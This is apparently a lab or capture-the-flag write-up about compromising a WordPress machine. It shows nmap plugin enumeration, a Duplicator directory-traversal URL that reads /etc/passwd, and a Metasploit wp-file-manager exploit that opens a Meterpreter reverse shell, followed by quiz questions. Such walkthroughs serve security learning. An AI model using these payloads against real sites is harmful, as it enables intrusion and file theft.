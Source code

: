 * Enumeration

```bash
└─$ nmap -p 80 --script http-wordpress-enum --script-args type="plugins",search-limit=1500 127.0.0.1                                              1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-27 09:46 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00017s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-enum: 
| Search limited to top 1500 themes/plugins
|   plugins
|     duplicator 1.3.26
|_    wp-file-manager 6.0

Nmap done: 1 IP address (1 host up) scanned in 9.83 seconds
                                                                                                                                                      
```

* ABOUT DUPLICATOR VULN : `https://www.exploit-db.com/exploits/50420`
* Duplicator is basically LFI

> 127.0.0.1/wp-admin/admin-ajax.php?action=duplicator\_download\&file=../../../../../../../../etc/passwd

**User shell**

```bash
msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set LHOST 10.9.2.60
LHOST => 10.9.2.60
msf6 exploit(multi/http/wp_file_manager_rce) > run

[*] Started reverse TCP handler on 10.9.2.60:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] 127.0.0.1:80 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/CMRdTO.php
[*] Sending stage (39282 bytes) to 10.10.184.227
[+] Deleted CMRdTO.php
[*] Meterpreter session 1 opened (10.9.2.60:4444 -> 10.10.184.227:58718) at 2021-05-03 19:42:28 +0200

```

#### Questions

* What CMS is running on the machine?

> wordpress

* What is the CVE number for directory traversal vulnerability?
